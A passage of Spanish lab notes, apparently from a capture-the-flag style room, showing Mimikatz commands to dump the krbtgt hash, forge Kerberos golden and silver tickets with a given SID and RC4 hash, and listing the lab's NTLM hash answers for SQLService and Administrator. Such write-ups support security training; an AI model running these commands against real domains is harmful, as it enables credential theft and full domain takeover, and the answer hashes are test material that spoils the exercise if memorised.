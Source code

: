     `mimikatz.exe`
    
    ![image.png](image%2029.png)
    

- Miramos que los privilegios que tenemos . Tiene que contestar `Privilege '20' OK`
    
    `privilege::debug`
    
    ![image.png](image%2030.png)
    

- Volcamos el hash, así como el identificador de seguridad necesario para crear un Golden Ticket. Para crear un ticket plateado, se debe cambiar /name: para volcar el hash de una cuenta de administrador de dominio o una cuenta de servicio como la cuenta SQLService.
    
    `lsadump::lsa /inject /name:krbtgt`
    
    ![image.png](image%2031.png)
    
    ![image.png](image%2032.png)
    

- Creamos un boleto dorado / plateado
    
    `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /rc4:72cd714611b64cd4d5550cd2759db3f6 /id:500`
    
    ![image.png](image%2033.png)
    
    Si es un billete dorado se utiliza un id: 500 . Si es plateado un id: 1103
    
- Hacemos que Mimikatz aplique un "parche" en memoria para desbloquear la ejecución de la consola de comandos **cmd.exe**. Aquí supuestamente se abriría otra ventana de CMD pero al estar conectado por SSH. **`misc::cmd`** abre la consola solo en entornos con GUI (interfaz gráfica)
    
    `misc::cmd` 
    
    ![image.png](image%2034.png)
    

- Responda las siguientes preguntas
    
    ¿Qué es el hash NTLM de SQLService?
    
    lsadump::lsa /inject /name:SQLService
    
    `cd40c9ed96265531b21fc5b1dafcfb0a`
    
    ¿Qué es el hash NTLM del administrador?
    
    lsadump::lsa /inject /name:Administrator 
    
    `2777b7fec870e04dda00cd7260f7bee6`
    

---

## Puertas traseras Kerberos con mimikatz
